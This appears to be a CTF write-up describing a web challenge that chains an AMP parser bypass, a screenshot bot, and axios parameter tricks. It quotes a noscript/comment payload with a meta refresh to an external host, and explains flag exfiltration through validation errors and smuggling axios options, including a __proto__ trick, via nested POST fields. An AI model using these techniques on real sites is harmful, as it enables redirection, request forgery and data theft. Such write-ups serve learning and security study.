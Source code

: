 The amount of vulnerabilities and tricks stacked into this one challenge is crazy.

First, we have to look at how to get unintended behavior out of the DOM. The official writeup used the <amp-ad> element which did not require an additional source and could access an external site using the data-pubnetwork-lib property. The writeup by wbowling used a different and much cooler exploit in which they were able to break the AMP parser. It was essentially adding <noscript><!-- </noscript>  <meta http-equiv="refresh" content="0;url=http://aw.rs:12344"> --></noscript>. During the CTF, I noticed that the parser was failing test cases where elements were inserted inside of each other and closed. Also, HTML comments and noscript tags can have weird behavior so I definitely should've tried this out myself. 

Now with the very powerful primitive that the screenshot bot will visit our site there are still many steps to go. One interesting idea was how to exfiltrate the data from the database. The official writeup, and what I implemented, abused the fact that the validate route would report invalid AMP code so we could fit the flag in some part of invalid AMP and it would display it in a screenshot. This is perfect because it helps bypass SOP (we get to see what the browser sees). This was done by making a document with id `a` that started a script tag and a document with id `z` that ended the script tag. Then by inserting a meta tag, the error will show up clearly when requesting all documents from the collection. 

Another interseting thing was how to send objects in POST request parameters. I noted this in a comment but it is interesting that to pass a nested object you just need to nest the properties in brackets, ex. `input[headers][Content-Type]`. This combined with the fact that axios will take in an object and not just a URL was another trick in this challenge.

Finally, the last trick is to get the response to be text. There are 2 approaches and I used the method from the original writeup. The official writeup's method is to set `transformResponse` to null. However, in a POST request with form data, we cannot actually send a null, it would be "null". I'm not 100% sure why this works but setting the prototype on the object works to set the property to null, ex. `createInput('input[transformResponse][__proto__]', '')`. My best guess is that axios may be interpreting parameters weirdly in the source code. I didn't have time to actually look for the reasoning yet. The other approach from wbowling's solution is add `爀` to the response and set the `responseEncoding` to `ascii` the json parsing fails and it returns text. This makes some sense as to why it would work as the parser doesn't recognize that character so it would default to text.

All of these vulnerabilities combine to an extremely difficult challenge and although I had some idea of what to do if I could get the bot to visit my site, I wasn't able to pass the first step during the actual ctf.
